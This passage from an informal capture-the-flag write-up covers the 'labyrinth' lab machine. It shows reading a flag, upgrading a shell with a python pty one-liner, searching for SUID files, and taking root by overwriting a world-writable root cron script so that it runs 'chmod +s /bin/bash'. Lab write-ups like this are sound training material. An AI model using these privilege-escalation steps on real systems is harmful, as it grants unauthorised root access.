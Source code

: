lol no password That might always be good to know

```bash
daemon@labyrinth:/home/user$ cat flag.txt
cat flag.txt

flag #3
fla9{the_minotaur_was_just_a_hipster}
```

## Privilege Escalation

Now privesc?

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
bash: /root/.bashrc: Permission denied
```

lets explore Minotaur's home folder....nothing useful
where is that timer they were talking about???

`find / -perm u=s 2> /dev/null`

the process hanged....geez (that shell is not very...stable)...anyway not very useful
Manually exploring then...we start from `/` folder and we see a `"timers"` folder

```bash
cd timers
daemon@labyrinth:/timers$ls -al
ls -al
total 12
drwxrwxrwx 2 root root 4096 jún 15 18:01 .
drwxr-xr-x 26 root root 4096 nov 9 13:37 ..
-rwxrwxrwx 1 root root 70 jún 15 18:01 timer.sh
```

we have all permissions on timer.sh

```bash
cat timer.sh
#!/bin/bash
echo "dont fo...forge...ttt" >> /reminders/dontforget.txt
```

It appends this to the txt file...probably running as a cron task (it updated in live)
But look at the Owner...ROOT

if we add a shell to it we can catch a connection as root...or more simply make it spawn a shell directly

```bash
echo '
#!/bin/bash
chmod +s /bin/bash
' > timer.sh (or >> to just append)
```
